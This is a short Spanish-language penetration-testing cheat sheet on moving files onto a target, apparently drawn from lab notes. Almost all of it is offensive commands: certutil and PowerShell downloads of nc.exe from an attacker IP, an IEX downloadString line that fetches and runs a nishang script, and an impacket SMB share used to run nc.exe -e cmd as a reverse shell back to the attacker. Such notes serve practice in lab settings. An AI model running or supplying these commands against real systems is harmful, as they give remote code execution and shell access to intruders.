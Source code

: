 # Transferencia de archivos

## Linux

Descarga recursiva de archivos en FTP:

```bash
wget -r --no-passive ftp://<user>:<password>@<ip>/
```

## Windows

```powershell
certutil.exe -f -urlcache -split http://10.10.14.9/nc.exe nc.exe

# Ejecutar scripts en sesión
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/nishang.ps1')

# Descargar cualquier tipo de archivo
powershell.exe Invoke-WebRequest -Uri http://10.10.14.9/nc.exe -OutFile nc.exe

# Compartir archivos por smb y ejecutar sin necesidad de descargar
## Escucha / Atacante
impacket-smbserver smbFolder $(pwd) -smb2support
## Ejecución / Victima
cmd /c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 1234
```